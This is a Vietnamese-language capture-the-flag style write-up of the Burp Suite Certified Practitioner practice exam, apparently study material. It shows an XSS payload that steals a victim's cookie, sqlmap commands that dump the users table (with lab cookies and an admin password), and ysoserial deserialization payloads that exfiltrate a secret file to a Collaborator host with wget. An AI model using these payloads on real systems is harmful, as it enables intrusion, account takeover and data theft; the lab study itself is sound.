 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `Antoine Nguyen`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](https://user-images.githubusercontent.com/61876488/146169208-1eb515aa-faf9-4919-9085-d5ada6a2e7e0.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](https://user-images.githubusercontent.com/61876488/146169329-819e5586-94fa-4eed-b0f6-be11cde765f5.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](https://user-images.githubusercontent.com/61876488/146169366-6806c816-fc92-4168-a9b7-2d46d778e568.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](https://user-images.githubusercontent.com/61876488/146169426-e2946d9c-0bb5-4c07-8276-4cbbf917eaa1.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](https://user-images.githubusercontent.com/61876488/146169487-b96dde85-3d72-415b-983a-b1346d8b70ad.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](https://user-images.githubusercontent.com/61876488/146169515-c176c379-172f-48b5-abbf-ce883c7251fb.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (khá giống CVE-2021-41773 :D). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](https://user-images.githubusercontent.com/61876488/146169608-19a26787-cde1-4ea3-9d6d-4f881f86396b.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](https://user-images.githubusercontent.com/61876488/146169678-f5827df6-b5a3-4952-a324-75fee4c8e571.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](https://user-images.githubusercontent.com/61876488/146169729-99373e9e-3644-4a92-9249-2608900db836.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](https://user-images.githubusercontent.com/61876488/146169768-44764d26-ca61-41c6-9fc2-c5e99478596f.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233700777](https://user-images.githubusercontent.com/61876488/146169796-d3fef678-23b1-477a-88d8-39081c9ab40a.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211213233720286](https://user-images.githubusercontent.com/61876488/146169833-e2bd1f02-c3e3-4a65-92e3-ad0a09598ee2.png)

![image-20211214095628881](https://user-images.githubusercontent.com/61876488/146169883-85286f24-35bf-4baa-a63d-546af660baf4.png)

![image-20211214102141470](https://user-images.githubusercontent.com/61876488/146169901-54b0bbf4-51e2-4aeb-9458-2c0a89140653.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](https://user-images.githubusercontent.com/61876488/146170101-864359b4-3ba1-4978-802b-ab779924814b.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](https://user-images.githubusercontent.com/61876488/146224830-e474e8e4-a211-459c-a10c-44ec2df9de03.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](https://user-images.githubusercontent.com/61876488/146225794-949ab1da-f48f-4e6e-8a63-e46948664405.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](https://user-images.githubusercontent.com/61876488/146225553-4287adcd-3c42-4038-85b8-048ccddc96c7.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](https://user-images.githubusercontent.com/61876488/146225700-4171ece7-00d7-48dd-b133-50f181eb12af.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](https://user-images.githubusercontent.com/61876488/146225935-e7c9ecfa-cedb-4c1d-9fa9-3260917195bf.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](https://user-images.githubusercontent.com/61876488/146226035-87a069d0-3b5e-4680-9637-6f0500294d1e.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](https://user-images.githubusercontent.com/61876488/146226107-3b70e47b-2c23-4cc4-80aa-c30510c693ba.png)

![image-20211215163312473](https://user-images.githubusercontent.com/61876488/146226178-34d29412-1f4a-4eb0-849c-abd37701766c.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```

![image-20211215154458664](https://user-images.githubusercontent.com/61876488/146226291-b748f2ca-8558-4c6b-9c03-a6a7dfa096ab.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](https://user-images.githubusercontent.com/61876488/146226418-fe236de8-9ac5-4541-adbc-5642f32865fd.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](https://user-images.githubusercontent.com/61876488/146226480-ec4e59b6-9818-43e8-a26e-78997c167d14.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP của mình:

![image-20211215155436265](https://user-images.githubusercontent.com/61876488/146226623-dd2ddd99-5b72-425c-b055-2d6316414c69.png)

![image-20211215155444115](https://user-images.githubusercontent.com/61876488/146226686-18428acd-1f33-4f19-9910-8a5afc716e1f.png)

![image-20211215165432252](https://user-images.githubusercontent.com/61876488/146226741-573b1d60-6ff6-479f-8c87-db0085b8ebcc.png)
